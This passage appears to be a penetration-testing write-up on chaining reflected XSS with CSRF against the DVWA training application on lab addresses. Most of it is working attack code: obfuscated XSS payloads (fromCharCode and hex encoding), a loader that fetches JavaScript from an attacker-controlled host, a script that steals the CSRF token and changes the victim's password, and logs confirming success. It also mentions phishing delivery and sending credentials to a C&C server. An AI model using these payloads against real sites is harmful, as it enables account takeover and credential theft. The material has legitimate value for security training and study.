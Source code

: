 #### 4.1. XSS + CSRF bypass (high security DVWA)

Attempting CSRF bypass via XSS.
Note: SoP does not allow access to the DOM of an `iframe` - therefore we cannot fetch the CSRF token from the target page.

#### 4.1.1. find XSS on victim website

```javascript
<!-- alert(123) -->
http://172.16.201.160/vulnerabilities/xss_r/?name=<img src=x onerror=eval(String.fromCharCode(97,108,101,114,116,40,49,50,51,41))>
```


#### 4.1.2. prepare JavaScript payload (as remote JS file) that collects CSRF token - `x.js`

```javascript
var res = document.createElement("div");
var xhr = new XMLHttpRequest();
xhr.open('GET', '/vulnerabilities/csrf/', true);
xhr.onreadystatechange = function() {
if (xhr.readyState === 4)  { 
	res.innerHTML = xhr.responseText;
	user_token = res.querySelector('[name="user_token"]').value;
}};
xhr.send(null);
```


#### 4.1.3. prepare XSS payload that loads and executes remote JS file

##### a) low security
```
http://172.16.201.160/vulnerabilities/xss_r/?name=<img src=x onerror="var x=document.createElement('script');x.src='http://172.16.195.1:8081/x.js';document.body.appendChild(x);">
```

##### b) high security (no JS errors, hidden image)

Decoded:
```
http://172.16.201.160/vulnerabilities/xss_r/?name=Alex<img onload=eval("var x=document.createElement('script');x.src='http://172.16.195.1:8081/x.js';document.body.appendChild(x);") style="width:0;height:0;border:0;" src="/dvwa/images/logo.png">
```

Encoding for `eval()`:
```js
x = "abcd";
var c=[]; for (i=0; i<x.length;i++) {c.push(x[i].charCodeAt())}
// c = [97, 98, 99, 100]
// c.toString() // more reliable to display all data for the payload
String.fromCharCode(97, 98, 99, 100) // "abcd"
```

Hex encoding: 
```
eval("\x63\x6f\x6e\x73\x6f\x6c\x65\x2e\x6c\x6f\x67\x28\x31\x32\x33\x29");
eval("console.log(123)");
```

Payload test for `console.log`:
```
http://172.16.201.160/vulnerabilities/xss_r/?name=Alex<img onload=eval(String.fromCharCode(99,111,110,115,111,108,101,46,108,111,103,40,49,50,51,41)) style="width:0;height:0;border:0;" src="/dvwa/images/logo.png">
```

Final payload:
```
http://172.16.201.160/vulnerabilities/xss_r/?name=Alex<img onload=eval(String.fromCharCode(118,97,114,32,120,61,100,111,99,117,109,101,110,116,46,99,114,101,97,116,101,69,108,101,109,101,110,116,40,39,115,99,114,105,112,116,39,41,59,120,46,115,114,99,61,39,104,116,116,112,58,47,47,49,55,50,46,49,54,46,49,57,53,46,49,58,56,48,56,49,47,120,46,106,115,39,59,100,111,99,117,109,101,110,116,46,98,111,100,121,46,97,112,112,101,110,100,67,104,105,108,100,40,120,41,59)) style="width:0;height:0;border:0;" src="/dvwa/images/logo.png">
```
Note: payload could be fully URL-encoded when used together with phishing/social-engineering attack `(^_^)`


##### c) alternative payload (placing the the script inside `<head></head>`)
```
var x=document.createElement('script');x.src='http://172.16.195.1:8081/x.js';document.getElementsByTagName('head').appendChild(x);"
```


#### 4.1.4. prepare JavaScript payload (as remote JS file) that runs CSRF attack via XSS

File: `x.js`

```javascript
function csrfChangePass(token, pass) {
   var xhr = new XMLHttpRequest();
   var params = '?user_token=' + token + '&password_new=' + pass + '&password_conf=' + pass + '&Change=Change';
   
   xhr.open("GET", "/vulnerabilities/csrf/" + params, true);
   xhr.withCredentials = true;
   var body = ""; // params data could be here if POST request
   var aBody = new Uint8Array(body.length);
   for (var i = 0; i < aBody.length; i++)
      aBody[i] = body.charCodeAt(i); 
   xhr.send(new Blob([aBody]));
}

history.pushState('', '', document.location.pathname)
var res = document.createElement("div");
var xhr = new XMLHttpRequest();
xhr.open('GET', '/vulnerabilities/csrf/', true);
xhr.onreadystatechange = function() {
   if (xhr.readyState === 4)  {
      res.innerHTML = xhr.responseText;
	  user_token = res.querySelector('[name="user_token"]').value
	  if (user_token !== null) {
            csrfChangePass(user_token, '123');
	  }
   }
};
xhr.send(null);
```


#### 4.1.5. inspect logs server-side to check desired outcome

```
172.16.201.1 - - [NOLOGSNOCRIME] "GET /vulnerabilities/xss_r/?name=Alex%3Cimg%20onload=eval(String.fromCharCode(118,97,114,32,120,61,100,111,99,117,109,101,110,116,46,99,114,101,97,116,101,69,108,101,109,101,110,116,40,39,115,99,114,105,112,116,39,41,59,120,46,115,114,99,61,39,104,116,116,112,58,47,47,49,55,50,46,49,54,46,49,57,53,46,49,58,56,48,56,49,47,120,46,106,115,39,59,100,111,99,117,109,101,110,116,46,98,111,100,121,46,97,112,112,101,110,100,67,104,105,108,100,40,120,41,59))%20style=%22width:0;height:0;border:0;%22%20src=%22/dvwa/images/logo.png%22%3E HTTP/1.1" 200 1961 "-" "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36"
172.16.201.1 - - [NO LOGS NO CRIME] "GET /vulnerabilities/csrf/ HTTP/1.1" 200 1770 "http://172.16.201.160/vulnerabilities/xss_r/" "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36"
172.16.201.1 - - [NOLOGSNOCRIME] "GET /vulnerabilities/csrf/?user_token=da735f06068570ed350a8237ab6ce3b0&password_new=123&password_conf=123&Change=Change HTTP/1.1" 200 1783 "http://172.16.201.160/vulnerabilities/xss_r/" "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36"
```


#### 4.1.6. Attack flow

- victim executes XSS payload on their behalf (in the browser)
- XSS payload loads remote JS file that executes malicious code in the context of the current user-session
  * 1st XHR request to fetch the CSRF token
  * 2nd XHR request to change user password on form protected by CSRF token
- current user password is changed
- extra: attacker can log user-name & password by sending XHR requests to their C&C server
- extra: after successful logging attacker can tear-down the C&C endpoint and spawn another (random) one for further affairs

